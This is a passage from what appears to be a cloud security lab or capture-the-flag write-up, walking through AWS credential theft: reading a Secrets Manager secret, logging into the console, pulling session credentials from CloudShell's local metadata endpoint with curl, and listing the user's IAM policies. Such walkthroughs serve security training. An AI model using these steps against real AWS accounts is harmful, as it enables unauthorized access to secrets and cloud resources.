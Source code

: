 We couldn't access all secrets, except for `ext/cost-optimization`
```
└─$ aws secretsmanager get-secret-value --secret-id ext/cost-optimization
{
    "ARN": "arn:aws:secretsmanager:us-east-1:427648302155:secret:ext/cost-optimization-p6WMM4",
    "Name": "ext/cost-optimization",
    "VersionId": "f7d6ae91-5afd-4a53-93b9-92ee74d8469c",
    "SecretString": "{\"Username\":\"ext-cost-user\",\"Password\":\"<REDACTED>\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1691183968.512
}

```

We can login to aws console using credentials

![](assume-privileged-role-with-external-id-2.png)

We have access to Cloud shell

![](assume-privileged-role-with-external-id-3.png)

We can try to get AWS CLI credentials using this console
```
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
```
```
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```

![](assume-privileged-role-with-external-id-4.png)

After running `aws configure` and setting keys, we also need to set token via `aws configure set aws_session_token "<token>"`
```
└─$ aws sts get-caller-identity
{
    "UserId": "AIDAWHEOTHRFTNCWM7FHT",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/ext-cost-user"
}
```

We can't run `aws-enumerator enum -services all`. But we can list policies
```
└─$ aws iam list-attached-user-policies --user-name ext-cost-user
{
    "AttachedPolicies": [
        {
            "PolicyName": "ExtCloudShell",
            "PolicyArn": "arn:aws:iam::427648302155:policy/ExtCloudShell"
        },
        {
            "PolicyName": "ExtPolicyTest",
            "PolicyArn": "arn:aws:iam::427648302155:policy/ExtPolicyTest"
        }
    ]
}
     
```
